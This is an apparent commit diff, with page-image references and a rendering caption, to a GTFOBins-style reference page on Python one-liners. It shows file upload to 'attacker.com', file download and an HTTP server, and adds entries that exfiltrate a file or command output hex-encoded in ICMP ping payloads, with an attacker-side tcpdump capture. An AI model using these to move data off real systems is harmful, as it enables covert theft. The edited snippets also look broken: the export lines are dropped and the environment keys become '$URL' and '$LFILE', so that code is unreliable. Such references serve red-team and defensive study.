

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/python.md, in a window 1280 px wide and 1400 px high, scrolled down 193 px, cut to the strip 146-1386 px from the top of the window. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1241 px from its top, so only the background shows below that.

Commit message:
Update python.md

```diff
--- a/_gtfoud/python.md
+++ b/_gtfoud/python.md
@@ -4,27 +4,38 @@
   file-upload:
     - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        export URL=http://attacker.com/
-        export LFILE=file_to_send
         python -c 'import sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
         else: import urllib as u, urllib2 as r
-        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
+        r.urlopen(e["$URL"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))'
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
         python -c 'import sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r
         else: import urllib as r
-        r.urlretrieve(e["URL"], e["LFILE"])'
+        r.urlretrieve(e["$URL"], e["$LFILE"])'
   server:
     - description: Serve files in the local folder running an HTTP server.
       code: |
-        export LPORT=8888
         python -c 'import sys; from os import environ as e
         if sys.version_info.major == 3: import http.server as s, socketserver as ss
         else: import SimpleHTTPServer as s, SocketServer as ss
-        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
+        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
+  data-exfiltration:
+    - description: |
+        Capture ICMP packets embedded in ping requests.
+        Run `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:'` on the attacker box to collect the data.
+        ⚠️ Increase the timeout flag based on the amount of data.
+        ⚠️ Manual parsing or reconstruction is required.
+
+        Send local file content over ICMP using hex-encoded payloads.
+      code: |
+        python -c 'import sys,os;d=open("$FILE","rb").read();d=d.hex() if sys.version_info[0]==3 else d.encode("hex");
+        [os.system("ping -c1 -p "+d[i:i+16]+" $RHOST") for i in range(0,len(d),16)]'
+
+    - description: Send command output over ICMP using hex-encoded payloads.
+      code: |
+        python -c 'import sys,os;d=os.popen("$CMD").read();d=d.encode().hex() if sys.version_info[0]==3 else d.encode("hex");
+        [os.system("ping -c1 -p "+d[i:i+16]+" $RHOST") for i in range(0,len(d),16)]'
 ---
```
